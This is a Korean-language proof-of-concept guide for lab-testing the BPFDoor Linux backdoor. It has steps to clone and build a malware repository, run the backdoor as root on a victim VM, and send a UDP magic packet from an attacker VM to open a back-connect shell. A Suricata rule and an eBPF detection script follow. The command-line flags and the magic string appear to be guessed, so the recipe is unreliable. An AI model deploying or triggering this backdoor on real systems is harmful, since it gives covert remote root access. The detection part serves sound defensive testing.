아래는 malwaredevil/BPFDoor-Backdoor 리포지토리를 이용한 PoC(Proof-of-Concept) 구성 예시입니다.  
→ **격리된 테스트 VM**(예: VirtualBox/KVM) 또는 Docker 컨테이너에서만 실행하세요!  

---

## 1. 테스트 환경 준비

- **OS**: Ubuntu 22.04 (또는 Rocky Linux 9)
- **필수 패키지**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```
- **네트워크**: VM은 호스트 전용 또는 내부 브리지로 외부 접근을 차단

---

## 2. 백도어 소스 클론 & 빌드

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → 결과물: ./bpfdoor
```

---

## 3. 백도어 실행 (Victim)

```bash
# 루트 권한으로 실행
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # 수신할 IP
  --listen-port 9999      # 매직 패킷 포트
```

> 이 상태로 대기하면, 지정한 UDP 포트로 “magic sequence”를 받았을 때 쉘(Back-Connect)을 엽니다.

---

## 4. 매직 패킷 송신 (Attacker)

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # 리포지토리 코드에 맞춰  
TARGET = ("192.168.56.101", 9999)  # Victim IP:Port

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("sent magic packet")
```

```bash
python3 send_magic.py
```

→ Victim 쪽에서 `nc` 등으로 쉘이 뜨는지 확인

---

## 5. 탐지 시나리오

### 5.1 Suricata 룰

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 eBPF 실시간 모니터링 (bcc 사용)

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // buf 포인터는 PT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // "MAGICPIN" 검사 (마지막 G는 다음 바이트)
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoor trigger detected\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("Tracing recvfrom() for magic… Ctrl-C to exit")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ magic 패킷을 받을 때마다 `>> BPFDoor trigger detected` 로그 출력

---

## 6. 전체 PoC 흐름

1. **Victim VM** 에 Suricata (또는 eBPF 스크립트)로 모니터링 시작  
2. **Victim VM** 에서 `sudo ./bpfdoor` 실행  
3. **Attacker VM** 에서 `python3 send_magic.py` 실행  
4. Suricata 경고 발생 또는 eBPF 로그 확인 → 공격 탐지  

---
